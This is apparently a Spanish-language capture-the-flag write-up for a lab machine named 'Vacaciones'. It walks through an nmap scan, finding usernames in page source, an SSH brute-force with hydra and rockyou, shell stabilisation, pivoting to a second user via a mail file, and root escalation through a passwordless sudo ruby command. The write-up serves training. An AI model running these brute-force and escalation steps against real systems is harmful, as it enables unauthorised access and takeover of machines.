 # MÁQUINA VACACIONES

Lo primeroq que tendremos que hacer será realizar un escaneo de puertos a la máquina víctima usando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto.jpg)

Vemos que esta abierto el puerto 80 por lo que vamos a ver que hay en la página web. A primera vista vemos que no hay nada, sin embargo si vemos el código fuente encontramos algo:

![WEB](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto2.jpg)

Vemos que tenemos 2 posibles usuarios, Juan y Camilo, por lo que vamos a intentar obtener la contraseña de uno de ellos usando fuerz bruta:

```shell
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![CAM](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto3.jpg)

Hemos encontrado la contraseña del usuario camilo, por lo que vamos a acceder a la máquina a través de SSH:

![IN](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto4.jpg)

Ya estamos dentro, ahora tendremos que tratar la tty (terminal) con los siguientes comandos:

```shell
script /dev/null -c bash
```

```shell
Control Z
```

```shell
stty raw -echo; fg
```

```shell
reset xterm
```

```shell
export TERM=xterm
```

```shell
export SHELL=bash
```

```shell
stty rows 24 columns 126
```

Si recordamos juan le había dejado un correo a camilo, por lo que vamos a ver si lo encontramos. Y ahí esta, en la carpeta /var/mail/camilo/

![MAIL](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto5.jpg)

Nos convertimos en juan con el comando su juan:

![JUAN](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto6.jpg)

Si ejecutamos el comando sudo -l vemos que podemos ejecutar ruby como cualquier usuario y sin contraseña, asi que vamos a aprovecharnos de esto para escalar privilegios.

Para ello iremos a la página de GTFOBins y ejeuctaremos lo que nos dice:

https://gtfobins.github.io/gtfobins/ruby/#sudo

```shell
sudo ruby -e 'exec "/bin/sh"'
```

![ROOT](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto7.jpg)





